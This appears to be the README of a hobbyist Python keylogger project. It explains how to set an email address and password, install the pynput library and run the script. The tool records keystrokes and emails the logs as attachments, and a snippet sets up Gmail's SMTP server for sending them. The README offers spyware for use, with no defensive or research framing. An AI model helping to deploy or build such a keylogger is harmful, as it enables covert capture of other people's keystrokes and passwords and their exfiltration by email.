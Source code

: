 #### This keylogger is my first tool using python :D
#### It's a simple keylogger that sends email with logs attachment.
#### Thanks to [kahla-sec](https://github.com/kahla-sec) for help :D .
### How to use : 
#### 1. specify the address and the password of your email in the main
```python
k = keylogger("email","password")
```
#### 2. python keylogger.py ( or python3 keylogger.py )
#### Requirements :  pynput library
```sh
$pip install pynput
```
##### or
```sh
$pip3 install pynput
```
### NOTE
#### if you are using gmail, change the SMTP server to smtp.gmail.com
```python
serveur = SMTP("smtp.gmail.com",587)
```
